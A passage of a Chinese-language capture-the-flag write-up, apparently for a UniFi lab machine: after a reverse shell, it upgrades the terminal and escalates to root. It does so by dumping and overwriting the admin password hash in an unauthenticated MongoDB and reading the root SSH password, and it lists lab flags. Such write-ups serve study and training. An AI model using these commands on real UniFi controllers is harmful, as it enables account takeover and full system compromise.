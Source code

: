 这时候查询就要带上端口了，因为这里是在1389开的服务，而不是默认的389。同时不能用whatever了，要用这里预定义的路径比如`/o=tomcat`

![image-20250920175030782](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250920175030782.png)

![image-20250920175056627](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250920175056627.png)

成功拿到shell，接着我们需要引入pty完善操作环境。因为这里靶机没有python环境，所以我们使用一个古老的方法`script /dev/null -c bash`

`script`原本用于**录制终端会话**（将所有输入和输出保存到一个指定的脚本文件），关键在于**它会为其运行的命令分配一个新的伪终端（PTY）**。-c后面的bash就是要运行的命令，/dev/null是指定保存到的文件，我们不需要保存就指定到这个黑洞。

在`/home/michael/user.txt`找到userflag为`6ced1a6a89e666c0620cdb10262ba127`

然后就是提权。

UniFi Network 控制器通常使用 **MongoDB 作为数据库**，并且**该数据库服务（通常在端口27117上监听）有时配置为无需认证即可访问**

```
unifi@unified:/home/michael$ ps aux | grep mongo
ps aux | grep mongo
unifi         67  0.3  4.1 1101700 85044 ?       Sl   10:07   0:11 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi       1628  0.0  0.0  11468  1060 pts/0    S+   11:01   0:00 grep mongo
```

我们使用`mongo`工具进行连接

```
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

27117是mongoDB服务运行的端口，ace是unifi的默认数据库名字，--eval是执行后面的命令

在MongoDB的 `ace` 数据库中，用户信息存储在 `admin` 集合中。攻击者主要有三种方式操作管理员账户：

- **提取并破解密码哈希**：直接查询 `db.admin.find().forEach(printjson);` 获取管理员的密码哈希（通常是SHA-512），然后尝试使用工具（如Hashcat）进行破解。
- **修改现有管理员密码**：使用 `mkpasswd`（通常包含在 `whois` 软件包中）生成一个新密码的SHA-512哈希值，然后使用MongoDB的 `update` 命令替换原有管理员的 `x_shadow` 字段值。

```
db.admin.update({"_id": ObjectId("具体管理员ID")}, {$set:{"x_shadow": "新生成的密码哈希"}})
```

- **创建新的影子管理员**：直接在 `admin` 集合中插入一个新的管理员用户文档，为其设置一个已知密码的哈希。

```
db.admin.insert({ "email" : "[email protected]", "name" : "恶意管理员", "x_shadow" : "生成的密码哈希" })
```

我们这里用第二种方法，使用mkpasswd生成密码哈希：

```
mkpasswd -m sha-512 Password1234
```

然后修改管理员密码：

```
mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})
```

然后直接网页用管理员账户密码登录，unifi管理页面会显示ssh的用户密码，为`root@NotACrackablePassword4U2022`

直接ssh登录，在/root/root.txt中找到rootflag为`e50bc93c75b634e4b272d2f771c33681`
